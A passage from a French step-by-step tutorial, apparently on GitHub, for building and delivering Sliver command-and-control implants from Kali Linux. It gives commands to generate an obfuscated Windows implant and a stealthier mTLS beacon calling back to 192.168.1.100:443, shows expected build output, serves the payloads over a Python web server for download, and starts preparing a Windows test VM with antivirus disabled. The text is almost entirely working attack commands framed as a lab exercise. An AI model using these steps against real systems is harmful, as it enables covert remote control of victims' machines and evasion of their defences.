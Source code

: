 **✅ Résultat attendu** :
```
[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 00:00:15
[*] Implant saved to /home/kali/silver-payloads/payload.exe
```

### **ÉTAPE 11** : Générer un beacon (plus furtif)
```bash
generate beacon --mtls 192.168.1.100:443 --os windows --arch amd64 --format exe --jitter 30s --interval 60s --save /home/kali/silver-payloads/beacon.exe
```
**✅ Résultat attendu** : Beacon généré avec succès

### **ÉTAPE 12** : Vérifier les payloads créés
```bash
# Dans le terminal normal
ls -la ~/silver-payloads/
```
**✅ Résultat attendu** :
```
-rwxr-xr-x 1 kali kali 8445952 Jan 15 10:30 payload.exe
-rwxr-xr-x 1 kali kali 8556032 Jan 15 10:32 beacon.exe
```

---

## 🌐 PHASE 5 : TRANSFERT DES PAYLOADS

### **ÉTAPE 13** : Créer un serveur web pour le transfert
```bash
# Dans le répertoire des payloads
cd ~/silver-payloads
python3 -m http.server 8080
```
**✅ Résultat attendu** :
```
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

### **ÉTAPE 14** : Tester l'accès aux payloads
```bash
# Dans un NOUVEAU terminal
curl -I http://192.168.1.100:8080/payload.exe
```
**✅ Résultat attendu** : HTTP/1.0 200 OK

---

## 🎯 PHASE 6 : TEST AVEC MACHINE VIRTUELLE CIBLE

### **ÉTAPE 15** : Préparer une VM Windows de test
- Créer une VM Windows (VirtualBox/VMware)
- Désactiver l'antivirus (pour les tests)
- S'assurer qu'elle peut accéder à votre Kali
